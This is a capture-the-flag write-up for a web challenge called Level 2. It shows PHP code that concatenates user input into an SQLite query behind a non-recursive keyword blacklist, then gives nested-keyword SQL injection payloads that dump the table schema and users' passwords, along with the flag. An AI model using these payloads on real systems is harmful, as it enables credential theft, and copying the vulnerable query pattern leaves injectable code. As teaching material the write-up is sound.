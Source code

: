 # Level 2
## Task
![image](https://user-images.githubusercontent.com/44528004/132695985-bdd36389-247f-4795-b05e-527c431abfea.png)

## Solution
The source of code of this challenge is:
```php
<?php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
?>
```

Here, the `implode()` function joins words from the array with a `|` as the separator. Next, the `preg_replace()` performs **find and replace** operation.
> The `/` and `/i` that wrap around the `$searchWords` is the syntax to declare a regular expression pattern. 

From these information, this application removes filtered words, namely `union`, `order`, `select`, `from`, `group`, `by`.
> Or we can see this on the challenge description.

## Exploitation
As we know that `union`, `select`, etc. will be replaced by an empty string `''`, so the payload `0 UNION SELECT 1, 1` will become `0  1, 1`. However, this function does not perform **recursive match and replace** which means `UNIUNIONON` will become `UNION`.  

What this in mind, we can craft a payload as follows:
```sql
0 UNIUNIONON SESELECTLECT name, sql FRFROMOM sqlite_master WHERE type='table'
```

This results in  

![image](https://user-images.githubusercontent.com/44528004/132819301-a05b1ec5-be10-4fff-969f-bf489e303cb7.png)  

Then, we craft another payload to extract `username` and `password`:
```sql
0 UNIUNIONON SESELECTLECT username, password FRFROMOM users
```

The result is  

![image](https://user-images.githubusercontent.com/44528004/132819409-0ddf56ac-88c5-424e-86d7-ced858ab4617.png)
> Flag: `WEBSEC{BecauseBlacklistsAreOftenAgoodIdea}`
